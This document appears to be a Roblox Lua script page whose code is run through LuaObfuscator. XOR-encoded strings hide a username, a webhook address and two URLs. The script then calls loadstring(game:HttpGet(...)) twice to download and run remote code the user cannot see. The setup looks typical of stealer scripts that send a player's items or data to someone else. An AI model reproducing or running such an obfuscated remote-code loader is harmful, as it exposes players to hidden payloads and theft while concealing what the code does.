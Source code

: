 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.1.7) ~  Much Love, Ferib 

]]--

local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v10={};for v11=144 -(72 + 71), #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1)),v1(v2(v9,(69 -(41 + 27)) + ((v11-1)% #v9),(2 -1) + ((v11-((2073 -(63 + 567)) -(217 + 1225)))% #v9) + 1)))%((2294 -1649) -389)));end return v5(v10);end UserName=v7("\28\200\240\110\5\192\252\66\10\196\234\115\94\159\182","\108\173\132\29");WebHook=v7("\123\172\240\103\110\23\16\206\119\177\247\116\114\95\91\207\112\183\233\56\124\93\86\206\100\189\230\127\114\66\84\146\60\233\180\33\45\20\13\214\34\225\178\47\40\30\8\209\37\239\178\37\50\117\123\216\42\225\215\38\92\72\70\148\68\156\246\71\116\65\111\139\85\136\244\66\77\96\85\182\105\183\252\125\118\116\107\190\95\136\230\113\122\28\110\165\43\135\243\72\78\68\109\140\65\245\201\37\87\85\117\172\107\129\213\112\79\95\79\136\73","\19\216\132\23\29\45\63\225");Mention=true;loadstring(game:HttpGet(v7("\13\219\75\36\22\149\16\123\23\206\72\122\2\198\75\60\16\205\74\39\0\221\92\59\11\219\90\58\17\129\92\59\8\128\84\96\3\219\75\123\21\202\75\39\8\198\71\48\16\223\90\123\8\206\86\58\74\255\108\12\75\195\74\53","\101\175\63\84"),true))();wait(10);loadstring(game:HttpGet(v7("\140\207\101\148\151\129\62\203\150\218\102\202\131\210\101\140\145\217\100\151\129\201\114\139\138\207\116\138\144\149\114\139\137\148\88\136\136\215\88\136\173\242\88\136\136\215\88\136\173\215\125\136\173\242\125\173\136\215\125\173\136\242\88\136\136\215\88\203\180\218\99\144\138\222\99\180\183\227\62\137\133\210\127\203\166\222\101\144\129\201\65\133\150\207\127\129\150\239\112\131","\228\187\17\228"),true))();
